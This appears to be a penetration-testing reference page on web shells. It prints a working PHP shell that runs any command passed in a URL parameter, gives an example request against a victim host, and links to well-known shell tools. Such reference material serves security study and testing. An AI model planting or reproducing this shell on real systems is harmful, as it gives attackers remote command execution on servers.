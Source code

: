 ```yaml
---
description: >-
  Script written in language supported by a compromised web server whuch
  executes commands through the web server itself
---
```


# Web Shells

Example of php web shell

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

If you managed to have this inside of a php file on the server for example named `shell.php` you can later use:

```
http://victim.com/uploads/shell.php?cmd=whoami
```

### Available Web shells

* [p0wny-shell](https://github.com/flozz/p0wny-shell) - A minimalistic single-file PHP web shell that allows remote command execution.
* [b374k shell](https://github.com/b374k/b374k) - A more feature-rich PHP web shell with file management and command execution, among other functionalities
* [c99 shell](https://www.r57shell.net/single.php?id=13) - A well-known and robust PHP web shell with extensive functionality.
